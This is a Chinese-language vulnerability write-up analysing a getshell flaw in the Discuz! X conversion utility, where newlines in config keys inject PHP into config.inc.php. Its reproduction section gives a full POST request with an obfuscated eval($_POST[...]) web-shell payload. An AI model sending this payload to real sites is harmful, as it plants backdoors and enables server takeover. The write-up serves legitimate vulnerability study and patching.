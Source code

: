 Discuz! X 系列全版本，版本转换功能导致Getshell
==============================================

一、漏洞简介
------------

存在问题的代码在`/utility/convert/`目录下，这部分的功能主要是用于Dz系列产品升级/转换。

二、漏洞影响
------------

Discuz! X 全版本

三、复现过程
------------

### 漏洞分析

入口`utility/convert/index.php`

    require './include/common.inc.php';

    $action = getgpc('a');
    $action = empty($action) ? getgpc('action') : $action;
    $source = getgpc('source') ? getgpc('source') : getgpc('s');

取`$_POST['a']`,直接赋值给`$action`，此时`$action = config`;

    } elseif($action == 'config' || CONFIG_EMPTY) {      
        require DISCUZ_ROOT.'./include/do_config.inc.php';  
    } elseif($action == 'setting') {

满足条件，引入`./include/do_config.inc.php`

    @touch($configfile);
     ......
    if(submitcheck()) {
        $newconfig = getgpc('newconfig');
        if(is_array($newconfig)) {
            $checkarray = $setting['config']['ucenter'] ? array('source', 'target', 'ucenter') : array('source', 'target');
            foreach ($checkarray as $key) {
          ......
        }
        save_config_file($configfile, $newconfig, $config_default);

`$newconfig`从`$_POST[newconfig]`获取数据，`save_config_file`函数保将`$newconfig`保存到`$configfile`文件中，即`config.inc.php`文件。跟进该函数。

    function save_config_file($filename, $config, $default) {
        $config = setdefault($config, $default);// 将$config中的空白项用 $default 中对应项的值填充
        $date = gmdate("Y-m-d H:i:s", time() + 3600 * 8);
        $year = date('Y');
        $content = <<<EOT
    <?php


    \$_config = array();

    EOT;
        $content .= getvars(array('_config' => $config));
        $content .= "\r\n// ".str_pad('  THE END  ', 50, '-', STR_PAD_BOTH)." //\r\n\r\n?>";
        file_put_contents($filename, $content);
    }

getvars函数处理，此时的`$config` =
`$newconfig+config.default.php对应项的补充`。看一下getvars函数：

    function getvars($data, $type = 'VAR') {
        $evaluate = '';
        foreach($data as $key => $val) {
            if(!preg_match("/^[a-zA-Z_\x7f-\xff][a-zA-Z0-9_\x7f-\xff]*$/", $key)) {
                continue;
            }
            if(is_array($val)) {
                $evaluate .= buildarray($val, 0, "\${$key}")."\r\n";
            } else {
                $val = addcslashes($val, '\'\\');
                $evaluate .= $type == 'VAR' ? "\$$key = '$val';\n" : "define('".strtoupper($key)."', '$val');\n";
            }
        }
        return $evaluate;
    }

满足if条件会执行`buildarray`函数，此时`$key=_config`，`$val`=上面的`$config`。最终造成写入的在该函数中（update.php
2206行）：

    foreach ($array as $key => $val) {
            if($level == 0) {
                //str_pad — 使用另一个字符串填充字符串为指定长度
                // 第一个参数是要输出的字符串，指定长度为50，用'-'填充，居中
                $newline = str_pad('  CONFIG '.strtoupper($key).'  ', 50, '-', STR_PAD_BOTH);
                $return .= "\r\n// $newline //\r\n";
            }

本意是使用`$config`数组的key作为每一块配置区域的\"注释标题\"，写入配置文件的\$newline依赖于\$key，而\$key是攻击者可控的。

未对输入数据进行正确的边界处理，导致可以插入换行符，逃离注释的作用范围，从而使输入数据转化为可执行代码。

### 漏洞复现

在产品升级/转换-\>选择产品转换程序 -\>设置服务器信息 这里抓包，

payload：

    POST /dz/utility/convert/index.php HTTP/1.1
    Host: www.0-sec.org:8001
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:74.0) Gecko/20100101 Firefox/74.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 278
    Origin: http://127.0.0.1:8001
    Connection: close
    Referer: http://127.0.0.1:8001/dz/utility/convert/index.php
    Upgrade-Insecure-Requests: 1

    a=config&source=d7.2_x1.5&submit=yes&newconfig[aaa%0a%0deval(CHR(101).CHR(118).CHR(97).CHR(108).CHR(40).CHR(34).CHR(36).CHR(95).CHR(80).CHR(79).CHR(83).CHR(84).CHR(91).CHR(108).CHR(97).CHR(110).CHR(118).CHR(110).CHR(97).CHR(108).CHR(93).CHR(59).CHR(34).CHR(41).CHR(59));//]=aaaa

![](resource/Discuz!X系列全版本版本转换功能导致Getshell/media/rId26.png)

参考链接
--------

> https://xz.aliyun.com/t/7492\#toc-18
